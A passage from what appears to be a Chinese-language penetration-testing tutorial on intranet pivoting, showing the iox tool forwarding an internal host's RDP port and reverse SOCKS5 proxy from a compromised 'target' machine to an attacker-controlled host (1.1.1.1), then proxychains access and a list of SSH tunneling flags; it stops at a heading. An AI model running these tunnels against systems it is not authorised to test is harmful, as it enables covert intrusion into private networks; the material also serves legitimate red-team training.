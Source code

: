 **IOX**

github：https://github.com/EddieIvan01/iox

使用，比如我们将内网的3389端口转发到我们的attackhost：

```
target:./iox fwd -r 192.168.0.100:3389 -r *1.1.1.1:8888 -k 656565   #-k启用加密

vps:./iox fwd -l *8888 -l 33890 -k 656565
```

socks代理

修改`/etc/proxychains.conf`

在本地`0.0.0.0:1080`启动Socks5服务

```
./iox proxy -l 1080
```

在被控机开启Socks5服务，将服务转发到公网attackhost

在attackhost上转发`0.0.0.0:9999`到`0.0.0.0:1080`

你必须将两条命令成对使用，因为它内部包含了一个简单的协议来控制回连

```
./iox proxy -r 1.1.1.1:9999
./iox proxy -l 9999 -l 1080       // 注意，这两个端口是有顺序的
```

接着连接内网主机

```
# proxychains.conf
# socks5://1.1.1.1:1080
​
$ proxychains rdesktop 192.168.0.100:3389
```

##### 4.4 应用层常用隧道

**SSH**

ssh常用参数：

```
-C 压缩传输
-f 后台执行SSH
-N 建立静默连接
-g 允许远程主机连接本地用于转发的端口
-L 本地端口转发
-R 远程端口转发
-D 动态转发
-P 指定SSH端口
```

**本地端口转发**
